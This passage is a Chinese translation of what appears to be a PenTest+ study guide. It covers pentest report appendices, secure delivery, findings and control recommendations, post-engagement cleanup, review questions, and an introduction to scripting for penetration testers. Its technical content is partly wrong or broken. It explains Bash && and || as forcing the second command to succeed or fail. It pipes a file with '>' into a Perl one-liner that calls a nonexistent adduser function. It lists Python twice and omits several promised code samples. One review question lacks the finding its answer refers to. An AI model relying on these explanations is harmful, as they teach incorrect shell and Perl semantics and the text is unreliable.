计划级度量通常旨在衡量安全成熟度和随时间的改进。修复时间、按严重程度或影响随时间划分的发现数量、环境中安全评估的覆盖率（例如，投资组合中已测试应用程序的百分比），甚至测试频率都可以是计划级指标。虽然渗透测试的范围通常将可用指标限制在报告级别，但报告消费者可能希望报告包含特定指标或格式，以便与之前的项目或修复计划的结果进行比较，从而建立那些计划级趋势和统计数据。


###### 结论

结论总结了渗透测试的结果，包括建议的高层级摘要，可用于制定面向未来的路线图。本部分应简洁明了且有针对性地解决报告中提出的所有问题的收尾工作。本部分不应完全重复执行摘要的内容。相反，应侧重于报告使用者的后续步骤。

###### 附录

并非所有报告都有或需要附录，有些报告可能包含多个附录。理解附录最简单的方式是：它们包含那些如果放在正文中会影响报告可读性的详细信息。如果一个发现影响 200 台主机，将每台主机都列在发现同一页面上，会使实际测试结果的细节被大量的主机名或 IP 地址淹没。相反，你可以将受影响的主机名列在附录中，并在发现中引用它。

附录也是放置那些可能不在明确范围或证据之内，但对报告使用者仍有用处的信息的地方——无论是为了理解渗透测试结果，还是为了采取补救措施。这可能包括用于社会工程学借口的模板、端口和协议图表、源代码引用、关于目标的支持数据（如相关设备原理图或受损资产清单）、测试中获得的妥协指标（IOC，这些对客户的事后审查很有用），或包含时间戳的测试日志（用于后续调查）。这些内容将放在报告末尾，结论之后，并应根据各数据类型的目的进行分组和引用（即 `Appendix A`：受损用户账户，`Appendix B`：已测试应用程序 URI，Appendix C：HID 读卡器系统图）。

###### 存储与安全分发

渗透测试报告和证据包含大量敏感信息。它们甚至可能成为导致组织彻底沦陷的路线图。因此，它们应被安全地存储和传输，且仅在满足合同条款所必需的期限内保留。交战规则（RoE）通常会定义与客户商定的处理说明。

安全交付应使用双方在初始规划阶段商定的格式和分发方式。例如，渗透测试报告通常使用某种文字处理软件编写（如 Microsoft Word、LibreOffice Writer 等），完成后可发布并作为 PDF 交付给客户，以防止报告完成后被进一步修改。随后可通过加密报告并使用安全传输机制进行交付。你可以使用 `7zip` ([`www.7-zip.org`](https://www.7-zip.org)) 来压缩和加密报告，并使用强密码保护。然后你可以通过安全文件传输服务或安全电子邮件系统上传报告。关键在于遵循你与客户在规划阶段达成的协议。


> **提示** 你不应使用与加密报告相同的交付机制来传送解密密码。这样可以最大限度地保证连续性，并降低未经授权泄露的风险，以防其中一条路径被攻破。

报告应安全存储以防篡改或未经授权的泄露，但保留时间线可能有所不同。作为最佳实践，渗透测试团队（或顾问）可以考虑将报告的单个数字副本存储在加密保险库中，并限制和监控对该保险库的访问，以确保交付物的机密性和完整性。保留间隔通常由合同条款、客户要求和持续业务的性质决定。例如，根据其风险偏好，客户可能要求渗透测试团队（或顾问）在交付后的一段时间内保留报告的数字副本。客户可能希望在剩余副本被妥善销毁前发出最终验收。在另一种情况下，渗透测试团队可能需要执行复测，并需要访问前一份报告的详细信息以重现步骤。


> **注意** 每个组织都有自己的风险偏好级别，即组织为实现目标所愿意承受的风险程度。在渗透测试的情况下，组织可能会对其内部环境的访问方式、敏感数据的处理方式以及允许谁进行测试施加一些严格限制。这些控制程序有助于在渗透测试期间降低风险敞口，以防攻击向量导致成功入侵。

###### 证明函

证明函是由独立第三方（如渗透测试咨询公司）提供的书面声明，旨在为组织在其他外部方面前建立可信度，通常作为审计流程的一部分。由于证明函是在报告之外提供的，且不包含具体的发现或漏洞数据，因此可以与关心客户安全但可能不应知晓内部环境深度信息的外部方公开共享。证明函声明独立方已针对组织执行了安全测试，并根据测试结果观察到该组织根据最佳实践和测试情况得到了充分保护。当然，此声明仅适用于测试结果和测试期间的观察情况。客户对结果的处理或不处理会影响证明函的实际价值。

###### 发现、建议与分析

发现是指恶意威胁行为者在攻击客户网络时可能利用的优势条件。发现应仅包含来自利用和利用后活动的可执行项。在你的发现模板中，应包含唯一标识符、发现名称、严重级别评级、带证据的描述、影响、建议和参考资料。

发现 ID 是分配给发现的唯一标识符，可用于跟踪优先级工作，并设定报告交付后关闭未决发现的里程碑。通常，你会在每个发现中包含此 ID，并用于为报告或发现部分建立索引。这些 ID 将在补救工作期间用于参考，也可能用于跨渗透测试业务的趋势分析。

由于数字难以记忆，发现通常还包含一个用于参考的简短名称。这可以是一个通用名称，或是描述弱点的摘要，例如“Tomcat 用户账户的默认密码”。它应与其他发现有足够的区别以供参考，但不要试图在名称中解释所有细节。

严重级别评级允许你对发现进行相互排序，并帮助报告使用者设定补救工作的优先级。通常，严重性标准的确定是在业务开始时由测试人员和客户共同商定的。渗透测试组织和咨询公司可将严重性标准作为报告的一部分发布。这可以定性或定量地进行。渗透测试执行标准（PTES）提供了一个用于信息安全风险评级的定性示例量表。^(1) 有些组织可能更倾向于基于数字的方法，并寻求正式的风险评级方法论，试图客观地标准化评分工作。两种客观方法论包括 OWASP 风险评级方法论^(2) 和通用漏洞评分系统（CVSS）。^(3)


每个发现都需要提供描述，使读者能够理解该发现的含义，并应提供支持性证据（即屏幕截图、笔记、概念验证 [PoC] 示例等），解释漏洞是如何被利用的。这样客户就可以在补救验证过程中复现该发现，并评估可能的修复方案。在撰写时，请尽量给读者提供足够的信息，以便将发现置于特定语境中，理解其原理，了解其对业务的影响，以及希望如何防止其在未来被成功利用。一个示例写作大纲可以使用以下问题作为指导：

- *何时* 发生的？在其他攻击的语境下，该发现发生在何处？
- *发生了* 什么？
- *何地* 发生的？涉及哪些系统或目标？
- *为何* 会发生？是否存在允许此攻击生效的特定弱点？

影响部分应回答核心问题：那又怎样？报告阅读者为何应关注此发现？成功攻击的影响是什么？是否导致了未经授权的访问或受保护/敏感信息的传输？该攻击是否导致了其他账户或资产的沦陷，或一个或多个资产上的更高权限？其中一些可能已内置于严重性评级中，但此部分为渗透测试人员提供了阐述评分理由的空间。

渗透测试人员的工作并不止步于弱点的识别；我们还必须就如何防止恶意行为者在未来针对同一环境的攻击中得逞，提出有意义的建议。建议可能适用于技术控制、管理控制、运营控制或物理控制。这就是渗透测试人员对运营的理解发挥作用的地方。如果不了解为实际用途运行环境的现实，要提出可执行且切合实际的建议是非常困难的。我们稍后将逐一讨论这些控制类型。

发现还可能包含其他参考资料，供客户获取有关该问题的更多信息。这些资料回答了诸如“该弱点在我的环境中适用程度如何？”等问题。这些参考资料可以是解释攻击原理的博客文章、关于最佳实践的行业参考、漏洞分析报告，甚至是已在线公开的演示文稿和演示。

####### 示例发现


此指南可能不统一适用于所有发现，但它确实为如何处理发现和测试叙述提供了一个起点。每个发现都应解释你为利用该弱点做了什么，并提供足够的信息，使报告阅读者能够了解该利用的影响。有关常见发现的更多示例，常见发现数据库是一个社区驱动的项目，包含渗透测试人员历史上发现有用的若干发现示例：[`github.com/obscuritylabs/OS-CFDB`](https://github.com/obscuritylabs/OS-CFDB)。


**注意** 渗透测试人员无法评估所有漏洞扫描发现。漏洞扫描器可能会基于横幅版本，在未经身份验证的远程扫描中触发本地权限提升发现，但由于回溯移植，该版本信息可能不准确。对于仅限于外部视角进行测试的渗透测试人员来说，无法验证这一点。这是大多数公司提供漏洞评估服务和渗透测试服务区分的关键原因。渗透测试探索的是实际影响，而非潜在影响。

################ 建议

建议不仅存在于发现层面。整体建议也可能出现在报告的执行摘要和结论中。在每种情况下，如果渗透测试人员提出的建议未能充分解决安全问题，或者建议不合理、不可行或不具成本效益，则意味着失败。

始终考虑业务用例，并请记住补救不必完美。消除所有风险并不总是现实的。发现应帮助业务理解风险，而建议应为他们提供一种将风险降低到可接受水平的方法。一种导致系统无法使用的完美解决方案是不合理的。

由于资源和系统限制或实施时间框架而导致无法实施的建议同样存在问题。权衡业务成本与保障业务安全的成本可能很棘手。在理想世界中，我们能够以正确的方式修复所有问题，且拥有无限的资金和资源。不幸的是，有时必须做出艰难的决定。企业必须权衡受到影响的潜在成本与采取行动修复的成本。让我们结合前面介绍的四类控制——技术控制、管理控制、运营控制和物理控制——来看几个示例建议。

######## 技术控制

这些建议适用于因系统设置或软件而自动强制执行的安全性。请确保您的建议处于相关系统的操作参数范围内。例如，某些系统无法实施长密码或复杂密码。以下是一些技术控制建议及其适用场景：

- 系统加固是应用系统设置和配置以减少系统受攻击脆弱性的过程。当您发现不必要的服务暴露、来宾账户和默认密码时，此建议可减少系统攻击面。
- 清理用户可控输入和参数化查询有助于防止注入攻击。
- 实施多因素认证或无密码认证可降低登录接口暴露和弱密码的风险。
- 密码加密可降低以其他方式被攻破系统的影响。如果密码使用强算法加密并安全地实施加密，将使攻击者更难利用这些凭证发起后续攻击。
- 应用程序白名单可能适用于在渗透测试期间二进制文件上传和执行特别容易的环境。
- 如果您能识别出许多本应修补的已知可利用漏洞，补丁管理可能对公司构成挑战。然而，并非所有系统都能打补丁，因为存在稳定性顾虑，有时需要网络分段。
- 如果在环境中发现非常旧的密码或密钥，应建议进行密码和密钥轮换。这会带来来自任何先前数据泄露以及前员工的风险。
- 当测试期间发现过期或被滥用的证书时，应建议标准化和自动化证书生命周期管理流程。
- 密钥管理适用于保护证书、认证密钥和密码。当您发现明文存储的密码，或在渗透测试期间在不安全位置发现密钥或证书时，这是一个可靠的建议。
- 网络分段通过限制攻击者执行横向移动和窃听网络流量的能力，有助于降低妥协的潜在影响。

######### 管理控制


######### 管理控制

这些是通过人为行动而非系统设置来实施的政策和程序。这可能包括治理事项，如安全基线要求、必须安装哪些安全控制的要求，以及系统应如何使用的其他条款。在提出这些建议时请记住，如果没有强制执行，政策或标准几乎无法提供任何实际安全性。这些建议通常会与技术控制配合，共同实现强制执行。以下是一些管理控制建议及其适用场景。

*   **基于角色的访问控制（RBAC）** 根据人的工作角色确定其被允许访问的内容。这可以缓解垂直权限提升。当最小权限原则在账户间未能一致应用时，尤其是那些共享相似工作角色的账户，就会涉及 `RBAC` 的建议。
*   **SDLC 安全** 保护组织免受针对其开发或在企业内使用的代码的攻击。这延伸至针对组织作为依赖项使用的代码的供应链攻击以及内部威胁。如果你发现源代码易于被修改（且更改未被检测到），或者你在渗透测试期间能够访问持续集成或持续交付（`CI/CD`）基础设施，又或者软件依赖缺乏适当的完整性检查，此建议将有所帮助。
*   **密码要求最佳实践** 是决定技术控制必须实施什么内容的政策或标准。虽然技术控制可能存在并正在使用，但如果它们不需要达到合理的安全标准，组织可能仍易受暴力猜测和字典攻击。

########## 运营控制

应用于人员行为并由人员强制执行的控制属于运营控制。针对运营控制的建议旨在解决业务流程或用户行为中发现的弱点，而非薄弱的政策或技术实现。强制执行通常需要高层支持，并依赖雇佣后果，以使这些措施能有效改善安全性。以下是一些运营控制建议的示例：

*   **工作轮换和强制休假** 确保员工能力的冗余，同时提供检查以验证个人的访问范围。从安全角度来看，当渗透测试揭示出因员工滥用资源而导致的、且未被组织察觉的漏洞或弱点时，适用此建议。
*   **时间限制** 限制账户在环境中的运行时间，或限制人员访问设施的时间。这些控制可以帮助防御者检测可能表明攻击者（或渗透测试人员）正在环境中活动的行为异常。当渗透测试观察到明显异常的活动时间且未被检测到时，此建议可能很有用。
*   **用户培训** 通常在社会工程学攻击成功、或人们未遵守安全最佳实践、且技术控制无法完全阻止攻击成功时被推荐。让用户了解攻击可能的样子，赋予其对企业安全的责任感，并教育他们在异常事件发生时的适当应对措施，有助于保护组织免受某些攻击。

########## 物理控制

管辖对建筑物和资产的物理访问的控制属于此类。门锁、摄像头、法拉第笼、读卡器系统、岗亭和围栏都是物理控制。大多数情况下，针对这一类别的建议是物理渗透测试的结果，但关于适用性、成本和可行性的相同规则依然适用。落实这些建议中的许多项涉及非同小可的成本和精力，如果实施容易被绕过，它们几乎不会增加任何安全性。以下是一些物理控制建议的示例及其建议场景：

*   **访问控制前室、气闸、萨利港或“中转室”** 是由一组互锁门围成的物理空间。此控制可用于将入侵者困在该空间内，并根据访问失败情况禁止入口或出口。此建议可用于保护安全需求较高的区域，因为它可以困住入侵者以便进一步处理，保护人员和计算资产免受伤害或盗窃，并且你可以要求多重认证机制（每扇门一套）以提高进入门槛。然而，这些通常相当昂贵，成本绝对应与建议权衡。
*   **生物识别控制** 涉及使用个人识别特征，如虹膜扫描、手印、指纹或声纹，以增加攻击者获取未授权访问的难度。这通常被推荐用于加强现有的访问控制机制。
*   **视频监控** 建议可能涉及增加或改善对访问点的摄像头监控。当不存在摄像头监控、摄像头布局不当、或视频质量不足以应对物理渗透测试尝试时，这可能是一个相关建议。然而，此建议仅在监控被主动维护、审查或监控并响应时才适用。

###### 常见主题和根本原因

我们讨论了建议，但你的工作不仅是识别发现并提出修复建议。渗透测试人员通过对发现的专家分析来体现价值。不要只考虑针对你发现的单一问题的战术性修复。尽可能寻找根本原因。不清楚这意味着什么？假设你在渗透测试中发现了多个 `XSS` 漏洞实例和多个成功的 `SQL 注入` 机会。你针对每个都有发现，每个都有清理用户可控输入或参数化查询的建议。但为什么这种情况频繁发生？

你发现中的常见主题可能指向更高层级的根本原因。渗透测试报告中的发现有时可能是漏洞、实现弱点、开发实践或导致级联发现的政策实施的直接结果。识别这些根本原因并相应地调整你的建议。在这种情况下，开发实践可能缺乏监督以在代码提升至生产环境前检测此类问题（最佳实践），开发人员在开发过程中可能重用表单或其他用户输入的不安全代码（漏洞），或者他们可能缺乏教育，无法意识到编码时何时需要额外的安全措施。

在某些情况下，多个发现可通过相同的行动解决，这需要反映在你的总体建议中。因此，当你将所有这些发现放入报告时，你应该通过分析意识到存在一个共同主题。你需要提高意识，即存在一个总体的战略弱点导致环境中的安全问题，你可能还需要在管理摘要中解释：这些发现都可以通过在用户中普及安全意识、执行更好的政策、甚至提供密码保管库来解决。


> **注意** 自上而下的管理方法是高级管理层发出的影响声明，规定了关于项目或任务的目标、目的或执行方式，然后将该愿景传播给较低层级的权威机构，以制定成功的计划并付诸行动。


漏洞可能由缺失补丁、应用程序对用户可控输入的不当处理以及常见的系统错误配置等引入。以下是您可能遇到的一些常见主题和根本原因示例：

- 补丁和配置管理不一致
- 不安全的代码复用
- 不安全的数据处理实践
- 弱/不当的加密使用
- 易受攻击的应用程序组件
- 无效或缺失的网络分段
- 权限分离不足
- 未遵循最小权限原则
- 监控不足或事件响应流程缺失
- 密码复用或账户共享
- 弱认证和授权管理
- 缺乏最佳实践，例如安全基准和控制（[`www.cisecurity.org/cybersecurity-best-practices/`](https://www.cisecurity.org/cybersecurity-best-practices/)）

#### 交付后活动

报告编写和交付并非渗透测试人员对客户责任的终点。在交付结束时，我们还需要做一些其他事情。清理测试痕迹、获取客户验收、复盘经验教训、启动后续行动或进一步测试，以及最终数据销毁，这些都是我们应当考虑的交付后活动示例。

##### 清理

您应致力于不使测试环境处于脆弱状态。一旦确定测试已完成，就是时候与您的 Shell 和战利品说再见，并移除持久化机制、载荷或其他测试痕迹。留下 Shell 或凭证以便攻击者利用是不良的商业行为。在某些情况下，您需要与您的联系人协调这些活动，因为系统管理员可能需要重新启动目标主机以清除内存内容，即使没有任何内容写入磁盘。或者您可能不再拥有对测试期间曾做更改的系统的 Shell 访问权限。测试工具（如 `Metasploit`）通常具有设计用于自我清理的机制，但它们并不完美。这就是为什么我们要详细记录报告中所做工作的笔记。


**提示** 一个好的经验法则：保持原样。

##### 客户验收

在某些情况下，客户可能会提问，以便更好地理解渗透测试团队采取的攻击路径，或与更多支持人员分享经验，这些人员可能在渗透测试中成为“受害者”，或者在测试期间完全不在场。无论哪种方式，您仍需提供发现的认证和支持证据。为支持客户汇报而创建的任何工件、演示文稿等，与报告一样敏感，因此可能需要遵循推荐的存储和交付机制。面对面会议的好处包括客户对发现结果的认可以及对经验教训的集体讨论。在某些情况下，客户可能需要提问，才能了解事态的真实严重性。有时，现场有能够阐述方法论、在白板上绘图或回答一堆问题的人，将有助于阐明为何或如何某事构成一个发现。


**考试提示** 在考试或考试大纲中，“client”（客户）或“customer”（顾客）这两个术语可能会交替使用。然而，它们含义相同。

##### 经验教训

花时间客观地审视规划、执行和交付过程中哪些做得好、哪些可能做得不够好，有助于提高客户满意度、未来的测试和测试流程。一个例子是跟进客户，了解修复建议是否可行、切实有效，并能有效防止未来利用相同技术进行攻击。另一个例子是审视测试期间和测试后的所作所为，以确定规划和范围界定活动是否收集了正确信息，或者在测试期间是否不得不回过头向联系人寻求额外澄清或重新评估。汲取经验教训的目标是对工作方式做出必要的改变，以提高渗透测试流程的有效性和交付成果的质量。

##### 重测与后续跟进

运气好的话，客户会请您回来进行另一次评估。这可能是为了在妥善缓解后重测发现的闭环情况，或是在稍后时间进行另一轮渗透测试。这些类型的后续行动是与客户保持联系并建立良好业务关系的好方法，以便他们继续寻求您的服务。如果客户要求进行验证测试，而这在您当前的合同或工作说明书中未涉及，这可能是范围蔓延的迹象，并可能影响渗透测试进度或项目完成日期。然而，这一新需求将成为请求额外时间和资金以完成验证测试的良好理由。

### 章节回顾

编写报告可能是一个非常耗时的过程。开发报告模板从长远来看有助于节省时间，因为测试活动的开展和评估方式大多遵循相似的程序，只需进行少量编辑即可使活动或攻击向量适用于客户的环境。执行摘要概述了测试活动的高层总结，不包含渗透测试的细节。报告应包含 `RoE` 中批准的所有攻击向量和测试活动，无论测试活动在渗透测试期间是否产生了任何有用结果。这一细节让客户确信他们在特定领域拥有覆盖范围，并可将修复工作的优先级放在关注领域上。

渗透测试报告记录了所经历的历程，讲述了一个关于客户环境及其如何经受安全最佳实践检验的连贯故事。在沟通时要清晰明了，使用适合目标受众的详细程度，并描述该受众理解测试结果所需的必要信息。报告完成后，遵循 `RoE` 中记录的、规定报告处理要求的程序非常重要，以确保最终产品的安全交付。您与客户建立的关系越牢固，他们将来再次请求您服务的可能性就越大。

################ 问题

**1.** 起草渗透测试报告时，您的团队征求您的意见，询问执行摘要应包含哪些主题。您的团队已确定了其中几个主题。以下哪些主题**不应**包含在执行摘要中？（选择两项。）

**A.** 时间线

**B.** 技术细节

**C.** 参考资料

**D.** 方法论

**E.** 观察结果

**2.** 方法论涵盖记录在 `______` 中的测试活动。

**A.** `MSA`

**B.** `NDA`

**C.** `SOW`

**D.** `以上都不是`

**3.** 哪些有效方法可确保客户渗透测试报告的安全交付？（选择两项。）

**A.** `加密文件`

**B.** `加密文件系统`

**C.** `电子邮件`

**D.** `加密电子邮件`

**4.** 渗透测试团队找到您，询问应如何处理报告的剩余草稿副本。您会建议团队参考哪份文件以获取正确的报告处理说明？

**A.** `SOW`

**B.** `RoE`

**C.** `SLA`

**D.** `MSA`

**5.** 制定政策或标准以定义并要求冗长、复杂的密码，属于哪种类型的控制示例？


**A.** 操作控制

**B.** 技术控制

**C.** 管理控制

**D.** 物理控制

**6.** 将适当的建议与以下发现的内容进行匹配：


**A.** 清理用户输入以避免使用以下字符：`<`、`>`、`;` 和 `&`。

**B.** 为敏感请求实施 CSRF 令牌。

**C.** 在将查询提交给后端系统之前对其进行参数化。

**D.** 实施策略以防止跨账户重复使用密码。

**7.** 一个关键任务 Web 应用程序仅支持不区分大小写的八字符密码。该 Web 应用程序控制仅有少数用户应访问的装配线系统，但制造商已倒闭，无可用升级。最佳建议是什么？

**A.** 关闭服务器。

**B.** 实施密码策略，要求用户选择难以猜测的密码。

**C.** 用更新的技术替换装配线系统，并确保其保持更新和维护。

**D.** 将服务器从网络中隔离，以便只有特定主机可以访问该系统。

#### 答案

**1.** **B, C.** 执行摘要提供有关渗透测试和发现的高层细节。通常，本节仅讨论高层或关键发现，几乎不包含受众理解问题所不需的技术细节。参考资料用于解决其他研究领域并伴随发现，不包含在执行摘要中。

**2.** **C.** `SOW` 是工作说明书，它确定了渗透测试期间要完成的工作范围和测试活动。

**3.** **A, D.** 报告的交付方式应由 `RoE` 中确定的所有各方商定。交付方式可能包括加密报告并使用安全传输机制（如加密电子邮件）进行交付。

**4.** **B.** 一旦客户确认成功交付并提取了报告，渗透测试团队应考虑将单份数字副本存储在加密保管库中，以防止未经授权的披露。所有剩余的数字或书面副本应标记为妥善处置和删除，基于 `RoE` 中规定的商定方法。

**5.** **C.** 策略或标准中定义的密码要求最佳实践属于管理控制。

**6.** **B.** 这是一个 CSRF 攻击的示例，试图通过使用伪装链接将合法会话重定向以转移资金。

**7.** **D.** 关闭服务器是不合理的，因为该系统是必需的，且必须被访问。仅八个字符且不区分大小写的密码基于密钥空间限制很容易被暴力破解，因此这不足以解决问题。替换系统在成本效益上不可行，也不一定能实现。

### 参考资料

**1.** [www.pentest-standard.org/index.php/Reporting](http://www.pentest-standard.org/index.php/Reporting)

**2.** [`owasp.org/www-community/OWASP_Risk_Rating_Methodology`](https://owasp.org/www-community/OWASP_Risk_Rating_Methodology)

**3.** [`nvd.nist.gov/vuln-metrics/cvss`](https://nvd.nist.gov/vuln-metrics/cvss)

## **第 11 章**

############### 工具与代码分析

在本章中，您将了解

- 脚本编写和编程的基本概念，包括逻辑结构、数据结构、库、类、过程和函数
- Shell 以及如何使用各种脚本语言创建它们
- 分析利用脚本或代码并理解其用途
- 探究基本渗透测试任务的自动化

编程语言是告诉计算机做什么的指令。每种编程语言实现这一目标的方法不同，且可能实现不同的语法或功能。正如我们在第 7 章中所学，渗透测试人员需要了解 `Objective C`、`Swift`、`C`、`Java`、`Kotlin` 和 `HTML5` 等语言，以便分析移动应用程序中的代码。然而，寻求程序漏洞的逆向工程师可能会使用 `Assembly`，而在其他语言编写的平台上工作的渗透测试人员可能需要这些语言的专业知识。无论专长如何，渗透测试人员通常都需要熟悉一些脚本语言。这些脚本语言对于导航 Windows 和 Linux 操作系统、自动化渗透测试任务以及漏洞利用的常见开发非常重要。

CompTIA PenTest+ 考试重点在于确保您具备七种语言的基本读写能力：`Bash`、`Python`、`Perl`、`Ruby`、`JavaScript`、`Python` 和 `PowerShell`。您可以用整本书的篇幅来详述这些语言中的每一种。事实上，人们已经这样做了。我们的目标不是使您成为这些语言的专家，而是能够识别这些语言，并希望能足够好地驾驭它们以理解基本示例。在本章中，我们将介绍您需要掌握的编程概念，以展示对这些语言的读写能力。我们将讨论逻辑结构、数据结构，以及库、类和过程等功能性程序组件，并给出每种适用语言的示例。然后我们将深入研究实际代码示例，并引导您完成代码分析。

################ 逻辑结构

逻辑结构是代码中的决策点，根据特定情况导致执行路径的差异。它们以条件语句、循环、布尔运算符、字符串运算符和算术运算符的形式出现。在进入实际编程示例之前，让我们先谈谈其中一些逻辑结构。我们将从条件语句开始。

##### 条件语句

假设您编写一个脚本来读取一个包含 IP 地址、主机名和 CIDR 范围的文件。如果文件中的某行包含 IP 地址，您想打印该 IP 地址。如果该行包含 CIDR 范围，您想展开该范围内的所有 IP 地址并打印它们。如果该行包含主机名，您想对该主机名的 IP 地址执行查找并打印该 IP 地址。您需要脚本根据遇到的条件采取不同的操作。

程序通过使用条件语句、表达式和结构来做出此类决策。一些常见的条件语句是 `if` 语句和 `case` 及 `switch` 语句。我们的介绍性示例使用复杂的 `if` 语句实现起来相当简单。这通常表示为 `else if`、`elseif`、`elsif` 或 `elif`。在 `Ruby` 中，这看起来可能像这样：


某些语言还为此逻辑实现了三元语句。三元语句通常用 `?` 和 `:` 符号表示。这里有一个 `Ruby` 示例，用于测试数字（在我们的例子中是 6）是否小于 10。如果是，它将返回 `true` 并打印 "true"。如果不是，它将返回 `false` 并打印 "false"。


另一种实现是 `switch` 或 `case` 语句。由于 `Python` 具有复杂的 `if` 语句逻辑，它不费心实现 `case` 或 `switch`。然而，`Bash`、`PowerShell`、`Ruby` 和 `JavaScript` 各自都有 `case` 或 `switch` 的某种实现。在 `Bash` 和 `JavaScript` 中，这些语句将比较精确匹配，而不是条件。您不会说“在我们的数字小于 10 的情况下……”，而而是说“在我们的数字是 9 的情况下，执行 X。在我们的数字是 8 的情况下，执行 Y。”其他语言，如 `PowerShell`，则更灵活一些：


在本例中，变量 `$_` 包含发送给 `switch` 语句的值——本例中为 8。如果该值小于 5，`switch` 语句打印“small”；如果大于 5 但小于 10，打印“medium”；如果大于 9，打印“large”。在本例中，因为我们使用了数字 8，所以 `switch` 语句会打印“medium”。


**NOTE** 要详细了解 PowerShell 中的各种条件运算符，请阅读 PowerShell 7.1 的 Microsoft 文档“about_Comparison_Operators”：[`docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_comparison_operators?view=powershell-7.1`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_comparison_operators?view=powershell-7.1)

##### 循环

循环指示程序重复执行一组操作。通常，循环包含两部分：一个决定循环何时停止的条件语句，以及一个包含循环每个周期中执行操作的循环体。条件语句决定了循环的类型。例如，你可以循环 `until` 满足某个条件，在特定条件存在时循环 `while`，或循环特定的次数。让我们仔细看看其中一种循环类型：`for` 循环。

`for` 循环通常用于遍历项目列表。例如，这可能是文件中的行或一系列数字。循环将持续到循环开头的条件得到满足。然而，循环的条件并不是循环迭代结束的唯一途径。循环也可以被循环体内的代码中断。大多数语言实现了类似 `break` 语句的功能，它向程序发出信号，指示循环处理应在该处停止，并执行其余代码。JavaScript 的 `for` 循环如下所示：


这将 `num` 设置为初始值 0。然后，每次循环完成时给 `num` 加 1，并只要 `num` 小于 5 就继续执行。每次循环时，它都会将 `num` 的值打印到屏幕上。由于 JavaScript 是一种基于 Web 的编程语言，它可以将内容写入 HTML 代码、警告窗口或 JavaScript 控制台。它通常不会将内容打印或回显到屏幕上。在本例中，我们使用 `document.write()` 仅用于测试目的。


**TIP** 循环的特征是拥有一个条件语句，以及 `for`、`until` 或 `while` 包裹着一段可执行代码体。

##### 布尔运算符

大多数语言实现的布尔运算符有 AND、OR 和 NOT。它们通常分别表示为 `&&`、`||` 和 `!`。让我们在 Bash 中看看这一点。你运行的每个命令都会返回某个值。要么成功（真），要么失败（假）。如果我们使用 `grep` 在 `/etc/passwd` 文件中搜索名为“rick”的用户，如果找到名为“rick”的账户则返回真，找不到则返回假：

```
grep "rick" /etc/passwd
```

使用布尔 AND 运算符，我们可以执行以下操作：

```
grep "rick" /etc/passwd && echo "User found!"
```

如果 `grep` 命令成功，它将返回真。布尔 AND 运算符将强制 `echo` 命令也成功执行（真）并向控制台打印“User found!”。如果 `grep` 命令失败，`echo` 命令也将被取消。对于布尔 AND，两条语句必须以相同的状态完成。如果第一条命令为真，则第二条命令为真。如果第一条命令为假，则第二条命令也必须为假。

如果我们用布尔 OR 运算符实现这一点：

```
grep "rick" /etc/passwd || echo "User not found!"
```

如果 `grep` 命令成功（返回真），OR 运算符将强制 `echo` 不成功（假），意味着不会有任何内容回显。如果 `grep` 命令失败（返回假），`echo` 命令必须成功（返回真）并将“User not found!”打印到屏幕上。对于布尔 OR，两条语句必须以不同的状态完成。如果第一条命令为真，第二条命令必须为假，反之亦然。

你可以像三元运算符一样将它们链接在一起，执行类似以下的操作：

```
grep "rick" /etc/passwd && echo "User found!" || echo "User not found."
```

对于布尔 NOT 运算符，我们可以选择在条件不满足时执行。继续使用 Bash，以下示例使用 `if` 语句测试文件“error.log”是否存在，如果不存在，则使用 `touch` 命令创建它：


##### 算术和字符串运算符

算术运算符用于执行数学计算。加法、减法、除法、乘法——你懂的。在命令行使用 Perl，这将输出 10：

```
$ perl -e 'print 5+5'
```

字符串运算符旨在执行诸如格式化字符串、连接多个字符串、执行字符串替换、移除字符串首尾字符以及匹配字符串的全部或部分等操作。我们将在本章后面的“实际示例”部分展示更多这方面的例子。现在，让我们看看 Perl 中两个快速的单行命令，它们将说明字符串运算符的概念。

假设你有一个包含用户名列表的文件，每行末尾都有一个换行符。你的脚本将读取这些用户名并将它们添加到系统中。但是，你不想创建一个末尾带有换行符的用户名。如果你想在脚本中使用该文件中的用户名，首先需要去除末尾的换行符。要在单行命令中做到这一点，你可以在 Bash 中 `cat` 该文件，将其重定向到 Perl 命令行，然后 `chomp` 该字符串，如下所示：

```
$ cat usernames.txt > perl -e 'while (<>){chomp($_); adduser($_)}'
```

在 Perl 中，`chomp` 函数移除字符串末尾的换行符。在前面的示例中，`$_` 是一个特殊变量，代表从我们的 `cat` 命令发送给 Perl 的数据。这是一个完全可接受的字符串操作示例，但让我们再看一个例子。

假设你正在测试应用程序是否存在缓冲区溢出。为此，你想打印 500 次字母 *A* 并将其发送到登录表单。你可以手动输入，但那将花费近乎永远的时间。或者你可以使用 Perl 命令行中的字符串运算符来完成：

```
$ perl -e 'print "A" x 500'
```

还有许多其他的字符串运算符。我们无法在此一一涵盖，但各编程语言的参考手册都包含了每种语言字符串运算符实现的详尽文档。


**NOTE** 以下是关于各语言字符串运算符的一些参考资料：

Python: [`docs.python.org/3/library/string.html`](https://docs.python.org/3/library/string.html)

Perl: [`perldoc.perl.org/perlop`](https://perldoc.perl.org/perlop)

PowerShell: [`docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_operators?view=powershell-7.1`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_operators?view=powershell-7.1)

Ruby: [`docs.ruby-doc.com/docs/ProgrammingRuby/html/ref_c_string.html`](http://docs.ruby-doc.com/docs/ProgrammingRuby/html/ref_c_string.html)

Bash: [`tldp.org/LDP/abs/html/string-manipulation.html`](https://tldp.org/LDP/abs/html/string-manipulation.html)

JavaScript: [`www.w3schools.com/js/js_operators.asp`](https://www.w3schools.com/js/js_operators.asp)

################ 数据结构


################ 数据结构

数据结构提供了一种存储和表达数据的方式，以便程序轻松使用。它们确立了数据的格式，定义了不同数据值之间的关系，并确定了可以对这些值执行的操作，以便程序能有效地使用数据。在本节中，我们将从宏观层面介绍一些概念，如键值和键、数组、字典、列表和树。然后我们将了解三种常见的数据格式：JSON、XML 和 CSV。

####### 键值和键

键是一个唯一标识符，程序可用它来引用某个数据项（键值）。利用这些键值对，应用程序可以直接获取所需的特定数据，而无需检查每一条数据。根据语言的不同，这些键值对有不同的名称。它们可以被称为关联数组、字典和哈希。无论它们叫什么，这些数据结构的主要优势在于：它们将两个相关的信息片段关联在一起。

####### 数组、字典和列表

